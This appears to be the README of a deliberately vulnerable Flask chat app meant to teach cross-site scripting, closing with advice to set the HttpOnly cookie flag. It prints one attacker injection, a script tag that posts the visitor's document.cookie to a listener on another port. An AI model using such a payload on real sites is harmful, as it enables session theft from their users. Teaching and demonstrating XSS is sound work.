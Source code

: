 Chat WebApp with Flask

Building an vulnerable chat web app to demostrate XSS attacks.


Attacker's injection: <script>$.ajax({ url : 'http://127.0.0.1:5001/listen', type : 'POST', data : { 'cookie' : document.cookie }, success : function(response) {}, error : function(error) {} })</script>

A good way to prevent XSS attacks on cookies is to set the HttpOnly flag of the cookie. This makes it unavailable to scripting languages like JavaScript.